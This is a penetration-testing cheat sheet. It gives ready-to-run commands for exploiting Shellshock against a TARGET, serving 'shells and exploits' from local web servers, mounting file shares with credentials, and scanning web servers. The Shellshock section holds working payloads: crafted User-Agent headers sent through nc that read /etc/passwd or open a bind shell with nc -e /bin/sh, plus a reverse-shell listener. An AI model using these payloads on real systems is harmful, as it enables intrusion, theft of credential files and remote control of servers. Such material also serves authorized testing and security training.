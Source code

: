 		*Exploiting Shellshock*
		A tool to find and exploit servers vulnerable to Shellshock:
			git clone https://github.com/nccgroup/shocker
				./shocker.py -H TARGET  --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose

		cat file (view file contents)

		echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc TARGET 80

		Shell Shock run bind shell
			echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc TARGET 80

		Shell Shock reverse Shell
			nc -l -p 443

### Simple Local Web Servers

Python local web server command, handy for serving up shells and exploits on an attacking machine.
	
	python -m SimpleHTTPServer 80
	Run a basic http server, great for serving up shells etc

	python3 -m http.server
	Run a basic Python3 http server, great for serving up shells etc

	ruby -rwebrick -e "WEBrick::HTTPServer.new(:Port => 80, :DocumentRoot => Dir.pwd).start"
	Run a ruby webrick basic http server

	php -S 0.0.0.0:80
	Run a basic PHP http server

### Mounting File Shares

How to mount NFS / CIFS, Windows and Linux file shares.
	
	mount 192.168.1.1:/vol/share /mnt/nfs
	Mount NFS share to /mnt/nfs

	mount -t cifs -o username=user,password=pass,domain=blah //192.168.1.X/share-name /mnt/cifs
	Mount Windows CIFS / SMB share on Linux at /mnt/cifs if you remove password it will prompt on the CLI (more secure as it wont end up in bash_history)

	net use Z: \\win-server\share password  /user:domain\janedoe /savecred /p:no
	Mount a Windows share on Windows from the command line

	apt-get install smb4k -y
	Install smb4k on Kali, useful Linux GUI for browsing SMB shares

### HTTP / HTTPS Webserver Enumeration
	
	nikto -h 192.168.1.1
	Perform a nikto scan against target

	dirbuster
	Configure via GUI, CLI input doesn't work most of the time
